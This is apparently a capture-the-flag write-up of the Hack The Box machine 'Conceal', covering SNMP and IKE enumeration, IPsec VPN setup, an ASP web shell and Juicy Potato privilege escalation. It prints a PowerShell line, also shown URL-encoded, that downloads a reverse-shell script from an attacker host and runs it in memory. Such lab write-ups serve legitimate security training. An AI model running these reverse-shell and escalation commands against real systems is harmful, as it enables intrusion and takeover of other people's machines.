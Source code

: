 # Conceal HelpThrough

Name: Conceal
Date:  13/11/2022
Difficulty: Hard 
Goals: OSCP Prep
Learnt:
- snmp-check output is bonkers
- 5353 (multicat dns)
- 5355 (LLMNR) - responder catch hashes from this 
- ike-scan -m  for better output
- Ipsec
- Setting up VPN servers
- nmap does not SYN through a VPN
- Strongswan is very picky
- Simple asp shell is best shell
- CLSID Keys
- Batch files to do IEX powershell reverse shelling

Having a bad hardware day... Therefore to keep the proverbial paddling  of a good life going ever on, Ippsec video on standby to learn why this box is so hard to enumerate and how I can encorporate more diligence when facing challenges that do not want to be found.

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](HackTheBox/Retired-Machines/Conceal/Screenshots/ping.png)

[isakmp](https://en.wikipedia.org/wiki/Internet_Security_Association_and_Key_Management_Protocol)

I did an Ikescan to find this, awhile ago knowing the box is hard. Just here to learn and textual fill in the gaps,:

```
CONCEAL : 9C8B1A372B1878851BE2C097031B6E43
iso.3.6.1.2.1.1.4.0 = STRING: "IKE VPN password PSK - 9C8B1A372B1878851BE2C097031B6E43"
```

On hearing the introduction I have never step up a vpn from nothing. So I will also do that. 

![](ntlmdudecake.png)

`Dudecake1!`

```bash
snmp-check -l 
```

At this point I fired up researching Ipsec protocol, because I think I have not covered it much to little in my notes. The VPN protocol - it authenicates and encrypts packets to provide secure communication between two computer. I will release my articles on making my own tomorrow evening along with the Ipsec related information. [Strongswan](https://en.wikipedia.org/wiki/StrongSwan) is apparently really complex and frail as of 4 years ago, will look into a better version. I looked into OpenVPN, but I would need to transfer config.

We need to install strongswan, because we want to create a transport vpn because a tunnel mode would encrypt traffic were cant exchange or debug at the other end. Trouble IPsec with [https://docs.netgate.com/pfsense/en/latest/troubleshooting/ipsec.html]. With some reading I decided to move on from this box until I need to make a VPN with Strongswan. I learnt about Ipsec, but Strongswan has evolved since, but
Ipsec manual and Ipsec.secrets, the Strongswan documentation is rough.

```bash
sudo apt install strongswan

# Ipsec.secrets
sudo vim /etc/ipsec.secrets
$ip %any : PSK "$Key" 

echo "
conn Conceal
        type=transport
        keyexchange=ikev1
        left=$IP
        leftprotoport=tcp
        right=$Coneals_IP
        rightprotoport=tcp
        authby=psk
        esp=3des-sha1
        fragmentation=yes
        ike=3des-sha1-modp1024
        ikelifetime=8h
        auto=start
" | sudo tee -a /etc/ipsec.conf

sudo ipsec start --nofork
# more issues change the maximum transmission unit 
# 
ifconfig tun0 mtu 1000 
```

![](wowvpninyourvpn.png)

At this point I thought I might as well pause the video and try hacking in from here for 30 minutes. 

## Exploit

FTP anonymous login with permissions to upload, but I cant print the directory or its contents. 
![](ftpupload.png)

Tried the webserver to see if it is link somehow. 
![1000](uploaddir.png)
No rcpclient, smb - retried uploading:
![](testing.png)

![](aspcmddoesnotwork.png)

Tried others and with aspx and failed. 

## Foothold 

I ended up using the very simple asp shell that is awesome from [0xdf](https://0xdf.gitlab.io/2019/05/18/htb-conceal.html)

```powershell
# The power of executing in memory powershell
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.109/Invoke-PowerShellTcp.ps1')"
# Url encode
cmd=%70%6f%77%65%72%73%68%65%6c%6c%20%22%49%45%58%28%4e%65%77%2d%4f%62%6a%65%63%74%20%4e%65%74%2e%57%65%62%43%6c%69%65%6e%74%29%2e%64%6f%77%6e%6c%6f%61%64%53%74%72%69%6e%67%28%27%68%74%74%70%3a%2f%2f%31%30%2e%31%30%2e%31%34%2e%31%30%39%2f%49%6e%76%6f%6b%65%2d%50%6f%77%65%72%53%68%65%6c%6c%54%63%70%2e%70%73%31%27%29%22
```

![](boxon.png)



## PrivEsc

Having recently compile every Potato exploit under the sun in the last 10 hours. It will be nice that Juicy Potato will work
![1080](potatotime.png)

From 0xDF I learnt about CLSIDs.
[RTFM](https://learn.microsoft.com/en-us/windows/win32/com/clsid-key-hklm)
A CLSID is a globally unique identifier that identifies a COM class object. If your server or container allows linking to its embedded objects, you need to register a CLSID for each supported class of objects.

`HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{CLSID}`

Nothing wants to run.
```
.\jp.exe -t * -l 9001 -p <put a batch file that pull another powershell reverse shell into memory> -c '{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}'
# -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}
```


![](system.png)